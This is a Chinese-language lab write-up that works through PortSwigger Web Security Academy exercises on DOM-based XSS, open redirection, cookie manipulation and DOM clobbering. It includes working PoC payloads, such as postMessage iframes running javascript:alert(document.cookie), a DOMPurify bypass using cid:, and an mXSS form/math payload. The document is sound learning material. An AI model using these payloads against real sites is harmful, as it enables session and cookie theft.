


[TOC]

#### 1. DOM XSS using web messages


而这里的题目是将message写入网页。

```html
<script>
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
</script>
```

POC:

```HTML
<iframe src="https://ac821fec1e9d44ce80a17ea100e50084.web-security-academy.net/" onload="this.contentWindow.postMessage('','*')">
```

#### 2. DOM XSS using web messages and a JavaScript URL

```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

这里检查url里面是否存在`http:`或者`https:`，如果存在其中一个或者两个都存在，则将`url`赋值给`location.href`。

我一开始用`http://qwerty`去尝试，试图找出这个location作用在哪里，然后发现被http被禁止了。

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('http://qwerty','*')">
```


换成`https`：

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('https://qwerty','*')">
```



换成`https`之后发现跳转了。然而我还是没有找到这个[`location`属性](https://www.runoob.com/w3cnote/js-redirect-to-another-webpage.html)在哪，推测是系统变量。

去搜了一下，这个类似`<a href="location.href">`标签。

那只要将`location.href`改成类似`javascript:alert(1)//https:`就可以了。

POC:

```html
<iframe src="https://ac1e1f361e12719b80c90747000c00e8.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//https:','*')">
```

#### 3. DOM XSS using web messages and `JSON.parse`

```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe');
        var ACMEplayer = {element: iframe};
        var d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

> **`JSON.parse()`** 方法用来解析JSON字符串，构造由字符串描述的JavaScript值或对象。

尝试构造json：(注意[json的格式](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/JSON))

> 对象和数组的属性名称必须是**双引号**括起来的字符串；最后一个属性后不能有逗号。

`{"type":"load-channel", "url":"javascript:alert(document.cookie)"}`

这个json就会在switch那里进入第二个case，然后把javascript部分放到src里面，进而执行alert函数。

POC:

```html
<iframe src="https://ac451f2d1fb1f86d80f705ef00a8009a.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:alert(document.cookie)\"}","*")'>
```

#### 4. DOM-based open redirection

这道题在评论页面有这样一段源码：

```html
<a href="#" onclick="returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = &quot;/&quot;">Back to Blog</a>
```

所以给url参数就好了,

POC:

```html
<iframe src="https://ac181f981f5097ef80d217e900ee001c.web-security-academy.net/post?postId=4&url=https://acab1fe91f5b97b7802a176e01a9004c.web-security-academy.net/">
<!-- url指向Exploit Server -->
```

#### 5. DOM-based cookie manipulation

随便view一个details，查看源码，发现了这段代码：

```html
<a href="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=1">Last viewed product</a>
...
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

这里会将`lastViewedProduct`的值填到上面的`href`里面。

尝试闭合：

`https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(1)</script>`

成功。

这里需要先加载恶意的网站来生成cookie，之后需要重定向到主页。

构造POC：

```html
<iframe src="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(document.cookie)</script>" onload='window.location.assign("https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/")'>
```

这个POC已经可以弹出cookie了，但是不知道为啥不给过。

官方给的payload是在iframe的框架下重定向的。

```html
<iframe src="https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/product?productId=2&'><script>alert(document.cookie)</script>" onload="if(!window.x)this.src='https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/';window.x=1;">
```

这里如果直接让`onload="this.src='https://acbf1ffd1f6b97ec80541a4d000c0052.web-security-academy.net/'"`就会一直弹窗，因为每跳转一次，就会触发一次`onload`。

而官方给的payload只会触发一次：第一次触发的时候没有`window.x`，所以触发，之后将`window.x`赋值，就不为空了，也就不会再次触发跳转。

好家伙，官方的paylaod都不给过。裂开。

终于，终于，靶场重置之后，我过了。

#### 6. Exploiting [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering) to enable XSS

##### 第一种解法

>  DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes `id` or `name` are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.
>
> A common pattern used by JavaScript developers is:
>
> `var someObject = window.someObject || {};`
>
> If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor.
>
> `<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>`
>
> As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the `someObject` reference with this DOM collection. A `name` attribute is used on the last anchor element in order to clobber the `url` property of the `someObject` object, which points to an external script.


可以看到，评论区引用了`resources/js/loadCommentsWithDomClobbering.js`文件。

然后在这个文件里面看到了这行代码：


```js
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
let avatarImgHTML = '';
```

所以这里的思路应该就是去覆盖`defaultAvatar`了。

我一开始用的是这个：

`<a id=defaultAvatar><a id=defaultAvatar name=avatar href="111">`

这里需要提交两次（第二次随便提交就可以了），因为这里的全局变量是由这段js代码生成的。

```js
if (comment.body) {
    let commentBodyPElement = document.createElement("p");
    commentBodyPElement.innerHTML = DOMPurify.sanitize(comment.body);
    commentSection.appendChild(commentBodyPElement);
}
```

原理是将你输入到comment框里的东西，经过DOMPurify过滤，然后放到网页上。因为放到了网页上，所以才生成了全局变量。第一次提交网页运行完成之后才生成全局变量，所以需要第二次提交来运用全局变量。

POST两次，然后出来的结果就是SRC为空。



这里猜测`comment.avatar`应该是不存在的。

不知道为什么，按道理来说应该是要拼接一个`111`上去的。

去控制台看了一下全局变量，发现`href`属性不见了。


这里猜测读取全局变量的顺序是由网页从上到下的顺序，导致先读取到的就是原来放到网站上面的（每次提交都会将提交的HTML放到网页上）。

换一个网页重来。

果然再次生成就有了。


然后重新提交，就会运用刚刚生成的全局变量（这里我用的111，可能被默认是`/111`了，所以会有前面的一串HOST）：


因为`img`的`src`属性是不能直接用`javascript:alert(1)`的，所以必须要封闭`src`，然后用`onerror`去触发`alert`。

换一个网页继续尝试：

`<a id=defaultAvatar><a id=defaultAvatar name=avatar href='111" onerror=alert(1);'>`

可以看到这里的双引号被url编码了：


由于我的全局变量是经过了DOMPurify过滤的，去搜索一下有啥能绕过DOMPurify过滤。

没有查到，去看了一下官方的教程。

官方的payload：

`<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`

> Notice that the site uses the DOMPurify filter in an attempt to reduce [DOM-based vulnerabilities](https://portswigger.net/web-security/dom-based). However, DOMPurify allows you to use the `cid:` protocol, which does not URL-encode double-quotes. This means you can inject an encoded double-quote that will be decoded at runtime. As a result, the injection described above will cause the `defaultAvatar` variable to be assigned the clobbered property `{avatar: ‘cid:"onerror=alert(1)//’}` the next time the page is loaded.

官方使用了cid去避免url-encode。

而且最后还添加了`//`注释符号，去避免最后不知道哪里添加的`"`干扰`alert`的执行。

##### 第二种解法

因为comment.body是用的[DOMPurify.sanitize()来过滤](https://www.anquanke.com/post/id/219089#h2-4)，所以可以直接注入一个XSS进去。

```js
commentBodyPElement.innerHTML = DOMPurify.sanitize(comment.body);
```

payload:

```html
<form><math><mtext></form><form><mglyph><style></math>
```

这种解法和上一种解法不同：

* 上一种解法用的是更改全局变量来达到DOM clobbering的效果，作用点在头像图片那里
* 而这一种是直接利用DOMPurify的漏洞来注入XSS，注入点在评论部分。

#### 7. Clobbering DOM attributes to bypass HTML filters

> ```
> <form onclick=alert(1)><input id=attributes>Click me
> ```
>
> In this case, the client-side filter would traverse the DOM and encounter a whitelisted `form` element. Normally, the filter would loop through the `attributes` property of the `form` element and remove any blacklisted attributes. However, because the `attributes` property has been clobbered with the `input` element, the filter loops through the `input` element instead. As the `input` element has an undefined length, the conditions for the `for` loop of the filter (for example `i<element.attributes.length`) are not met, and the filter simply moves on to the next element instead. This results in the `onclick` event being ignored altogether by the filter, which subsequently allows the `alert()` function to be called in the browser.

这里的onclick换成onfocus也是可以的。

在XSS里面做过，聚焦的话需要条件。

> **tabindex** [全局属性](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes) 指示其元素是否可以聚焦，以及它是否/在何处参与顺序键盘导航（通常使用Tab键，因此得名）。
>
> - tabindex=负值 (通常是tabindex=“-1”)，表示元素是可聚焦的，但是不能通过键盘导航来访问到该元素，用JS做页面小组件内部键盘导航的时候非常有用。
> - `tabindex="0"` ，表示元素是可聚焦的，并且可以通过键盘导航来聚焦到该元素，它的相对顺序是当前处于的DOM结构来决定的。
> - tabindex=正值，表示元素是可聚焦的，并且可以通过键盘导航来访问到该元素；它的相对顺序按照**tabindex** 的数值递增而滞后获焦。如果多个元素拥有相同的 **tabindex**，它们的相对顺序按照他们在当前DOM中的先后顺序决定。

也就是说这里应该要用下面的东西先提交评论。

```html
<form id=x tabindex=-1 onfocus=alert(document.cookie)><input id=attributes>
```

然后把exploit的网站指到form上面。

```html
<iframe src="https://acfa1f9f1eda42cc80fa354b00eb00fb.web-security-academy.net/post?postId=2#x"></iframe>
```

但是用iframe标签打开的时候却不能自动聚焦，去点击的时候反而可以聚焦。

不知道这是为什么。试了好多方法都不行，这里去看了官方的payload。

```html
<iframe src=https://your-lab-id.web-security-academy.net/post?postId=3 onload="setTimeout(someArgument=>this.src=this.src+'#x',500)">
```

官方这里用[延时函数](https://blog.csdn.net/pan_junbiao/article/details/7880523)延迟500ms然后重新触发聚焦。忽然想到这里的comment不是随着网站一起出来的，这里的comment是用js代码加载出来的，也就是说一开始打开网站的时候并没有那个聚焦点，所以要延时500ms。

所以更改自己的payload：

```html
<iframe src="https://acfa1f9f1eda42cc80fa354b00eb00fb.web-security-academy.net/post?postId=2" onload="setTimeout(function() { this.src=this.src+'#x'; }, 2000)"></iframe>
```

然而这样并不行，因为在函数里的this并不是指的iframe，所以无法更改src属性。

所以将匿名函数改成箭头函数。

```html
<iframe src="https://acfa1f9f1eda42cc80fa354b00eb00fb.web-security-academy.net/post?postId=2" onload="setTimeout(()=>this.src=this.src+'#x', 2000)"></iframe>
```

根据[箭头函数](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Functions/Arrow_functions)的特性，它的this指的就是`iframe`了。

> * 箭头函数不会创建自己的`this`,它只会从自己的作用域链的上一层继承`this`。
> * 箭头函数体中的 this 对象，是定义函数时的对象，而不是使用函数时的对象。

结束之后的思考：

1. 这里要是只要出发alert的话，完全可以在iframe那里就触发了。

```html
<iframe src="https://acfa1f9f1eda42cc80fa354b00eb00fb.web-security-academy.net/post?postId=2" onload="alert(document.cookie)"></iframe>
```

2. 尝试在这里添加自动触发。

```html
<form id=x tabindex=-1 autofocus onfocus=alert(document.cookie)><input id=attributes>
```

​	这个方法在直接访问网站的时候是可以触发alert的，但是用iframe就不行。

#### 这里给出[第6，7题的教程](https://xz.aliyun.com/t/7329#toc-12)

我写了一整天才看到这个教程，我也太难了。

* 在教程中我们可以看到，在第六题的`cid:&quot;`绕过也可以用`1:&quot;`，但是**不知道为什么**。

* 对于为什么用`attributes`作为id可以绕过

    > 标签的获取由`treeWalker.firstChild();`得到，过滤由`getAllowedAttrs`以及`shouldRejectNode`两个函数进行，由于这里的过滤是进行白名单过滤，没什么办法进行绕过；属性的获取在一个`for`循环当中，条件是`node.attributes.length`，获取方式是`node.attributes[a]`，过滤由`shouldRejectAttr`方法进行。
    >
    > 对 Dom Clobbering 比较敏感的同学可能会注意到这里，对于 node 属性过滤时的`for`循环条件，直接使用了`node.attributes.length`